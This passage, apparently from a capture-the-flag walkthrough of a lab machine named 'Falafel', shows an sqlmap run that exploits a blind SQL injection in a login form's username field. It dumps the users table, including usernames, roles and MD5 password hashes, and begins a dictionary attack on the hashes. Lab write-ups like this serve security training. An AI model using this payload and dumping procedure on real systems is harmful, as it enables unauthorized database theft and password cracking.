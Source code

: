 Got it! Let’s now dump the database:

```

root@kali# sqlmap -r login-chris.request --level 5 --risk 3 --batch --string "Wrong identification" --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.5#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org
...
08:31:30] [INFO] testing if the provided string is within the target URL page content
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=chris' AND 8059=8059-- GlxT&password=chris
---
[08:31:30] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL 5
...
[08:31:30] [INFO] retrieved: falafel
[08:31:39] [INFO] fetching tables for database: 'falafel'
[08:31:39] [INFO] fetching number of tables for database 'falafel'
[08:31:39] [INFO] retrieved: 1
[08:31:39] [INFO] retrieved: users
[08:31:46] [INFO] fetching columns for table 'users' in database 'falafel'
[08:31:46] [INFO] retrieved: 4
[08:31:48] [INFO] retrieved: ID
[08:31:50] [INFO] retrieved: username
[08:32:02] [INFO] retrieved: password
[08:32:46] [WARNING] turning off pre-connect mechanism because of connection time out(s)
[08:32:46] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
d
[08:33:03] [INFO] retrieved: role
[08:33:10] [INFO] fetching entries for table 'users' in database 'falafel'
[08:33:10] [INFO] fetching number of entries for table 'users' in database 'falafel'
[08:33:10] [INFO] retrieved: 2
[08:33:11] [INFO] retrieved: 1
[08:33:30] [INFO] retrieved: 0e462096931906507119562988736854
[08:34:40] [INFO] retrieved: admin
[08:34:51] [INFO] retrieved: admin
[08:35:06] [INFO] retrieved: 2
[08:35:08] [INFO] retrieved: d4ee02a22fc872e36d9e3751ba72ddc8
[08:36:30] [INFO] retrieved: normal
[08:36:43] [INFO] retrieved: chris
[08:36:52] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[08:36:52] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[08:36:52] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
```